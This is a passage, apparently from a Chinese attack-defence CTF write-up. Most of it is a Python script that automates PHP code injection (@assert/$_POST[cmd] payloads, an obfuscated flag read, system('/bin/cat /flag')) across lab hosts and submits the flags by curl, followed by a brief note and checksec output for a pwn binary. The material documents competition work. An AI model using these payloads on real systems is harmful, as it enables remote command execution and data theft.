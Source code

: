 ```python
from requests import post
from pyquery import PyQuery as pq
from os import system

for i in range(24):
    if i == 8:
        continue
    print(f"======{i+1} starts=======")
    if i == 12 or i == 2:
        continue
    payloads = [
        "@assert($_POST[cmd])",
        "@assert($_POST[cmd])",
        "@call_user_func(assert, $_POST[cmd])",
        "print(file_get_contents(chr(47).chr(102).chr(108).chr(97).chr(103)))"
    ]
    for p in payloads:
        url = "http://172.16." + str(i+1) + ".102:20002/?r=list&pages=123{${" + p + "}}123"
        t = post(url, data={'cmd' : 'system("/bin/cat /flag");'}).text
        try:
            d = pq(t)
            out = d('.pagecode').html()
            print(out)
            flag = out.split(';')[-2].split('\n')[1]
            if i==16:
                flag = flag[2:]
            print(f"{i+1} : {flag}")
            system(f'curl http://172.16.200.20:9000/submit_flag/ -d "flag={flag}&token=Hn4JuwQQ7Mfaek2HAuTkB3S6k4e38EKXQJEdtDDWDfsda2tqQUgUHRCtrtxbS9hMkQndVbVfHsD"')
            print('\n')
        except:
            print(f"{i+1} not avai")
            pass
```

# 复现

全场贡献只有成功 patch 了最容易的第二题。

## once_time

checksec：

```shell
[*] '/home/assassinq/Desktop/once_time'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

